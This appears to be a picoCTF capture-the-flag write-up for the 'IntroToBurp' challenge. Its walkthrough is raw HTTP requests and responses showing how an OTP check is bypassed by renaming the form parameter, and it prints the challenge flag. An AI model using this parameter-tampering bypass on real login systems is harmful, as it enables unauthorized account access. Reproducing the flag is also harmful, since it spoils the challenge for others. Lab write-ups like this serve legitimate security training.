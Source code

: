 # IntroToBurp

## Description

Additional details will be available after launching your challenge instance.

## Hints

* Try using burpsuite to intercept request to capture the flag.

* Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.

## Walkthrough

```http
POST / HTTP/1.1
Host: titan.picoctf.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Origin: http://titan.picoctf.net
Connection: close
Referer: http://titan.picoctf.net/

csrf_token=<token>&full_name=test&username=test&phone_number=1234567890&city=anywhere&password=12345&submit=Register
```

```http
HTTP/1.1 302 FOUND
Server: Werkzeug/3.0.1 Python/3.8.10
Content-Type: text/html; charset=utf-8
Content-Length: 207
Location: /dashboard
Vary: Cookie
Set-Cookie: session=<cookie> HttpOnly; Path=/
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/dashboard">/dashboard</a>. If not, click the link.

```

```http
POST /dashboard HTTP/1.1
Host: titan.picoctf.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://titan.picoctf.net
Connection: close
Referer: http://titan.picoctf.net/dash

otp=12345
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Content-Type: text/html; charset=utf-8
Content-Length: 11
Vary: Cookie
Connection: close

Invalid OTP
```

```http
POST /dashboard HTTP/1.1
Host: titan.picoctf.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://titan.picoctf.net
Connection: close
Referer: http://titan.picoctf.net/dash

fake=12345
```

> Welcome, test you sucessfully bypassed the OTP request. Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}

```picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}```
